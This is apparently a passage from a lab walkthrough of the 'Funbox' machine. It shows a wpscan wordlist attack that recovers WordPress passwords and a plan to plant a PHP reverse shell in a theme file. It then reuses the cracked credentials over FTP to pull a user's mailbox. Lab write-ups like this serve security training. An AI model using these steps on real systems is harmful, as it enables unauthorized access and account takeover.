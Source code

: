 **Cracking user passwords:**

```
crazyeights@es-base:~$ wpscan --url http://funbox.fritz.box --passwords lists/rockyou-40.txt --usernames joe,admin

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire

```

With a valid login, we can login and replace a theme template php file with a php reverse shell.

**Going to themes:**

Location of 404.php:
`
http://funbox.fritz.box/wp-content/themes/twentyseventeen/404.php
`

Tried to put a reverse shell in 404.php gives you an error

### FTP:

Login as joe using the credentials found for wordpress: `joe:12345`

```
crazyeights@es-base:~$ ftp funbox.fritz.box
Connected to funbox.fritz.box.
220 ProFTPD Server (Debian) [::ffff:192.168.56.116]
Name (funbox.fritz.box:crazyeights): joe
331 Password required for joe
Password:
230 User joe logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-------   1 joe      joe           998 Jul 18 09:49 mbox
```

Download the file mbox:
```
ftp> get mbox
local: mbox remote: mbox
200 PORT command successful
150 Opening BINARY mode data connection for mbox (998 bytes)
226 Transfer complete
998 bytes received in 0.01 secs (66.7952 kB/s)
ftp> 
```

The file mbox contains:
```
From root@funbox  Fri Jun 19 13:12:38 2020
Return-Path: <root@funbox>
X-Original-To: joe@funbox
Delivered-To: joe@funbox
Received: by funbox.fritz.box (Postfix, from userid 0)
	id 2D257446B0; Fri, 19 Jun 2020 13:12:38 +0000 (UTC)
Subject: Backups
To: <joe@funbox>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20200619131238.2D257446B0@funbox.fritz.box>
Date: Fri, 19 Jun 2020 13:12:38 +0000 (UTC)
From: root <root@funbox>

```